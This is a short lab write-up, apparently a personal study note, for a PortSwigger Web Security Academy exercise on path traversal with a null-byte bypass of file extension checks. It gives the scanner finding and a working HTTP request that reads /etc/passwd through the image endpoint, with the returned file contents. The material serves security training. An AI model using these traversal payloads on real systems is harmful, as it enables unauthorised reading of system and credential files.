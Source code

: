 # [Lab: File path traversal, validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

## Lab

This lab contains a file path traversal vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Scan

- burpsuite scanner detected
  - `File path traversal`
  - `/image`
  - The payload `../../../../../../../../../../../../../../../../etc/passwd[0x00]12.jpg` was submitted in the filename parameter. The requested file was returned in the application's response.

## Solutions

null byte:

```http
GET /image?filename=../../../../../../../../../../../../../../../../../../../etc/passwd%00.png HTTP/1.1

HTTP/1.1 200 OK
Content-Type: image/png
Connection: close
Content-Length: 2262

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
